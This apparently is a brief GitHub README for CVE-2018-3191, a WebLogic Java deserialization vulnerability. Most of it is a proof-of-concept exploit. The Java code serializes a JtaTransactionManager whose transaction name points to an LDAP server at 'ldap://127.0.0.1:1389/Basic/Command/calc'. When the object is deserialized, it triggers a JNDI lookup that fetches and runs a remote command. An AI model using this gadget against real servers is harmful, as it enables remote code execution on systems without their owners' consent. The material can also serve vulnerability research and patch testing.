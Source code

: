 # CVE-2018-3191

主要利用了com.bea.core.repackaged.springframework.transaction.jta.JtaTransactionManager#readObject()，进行jndi攻击

```java
        JtaTransactionManager jtaTransactionManager = new JtaTransactionManager();
        jtaTransactionManager.setUserTransactionName("ldap://127.0.0.1:1389/Basic/Command/calc");


        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(jtaTransactionManager);

        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
        ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
        objectInputStream.readObject();

```

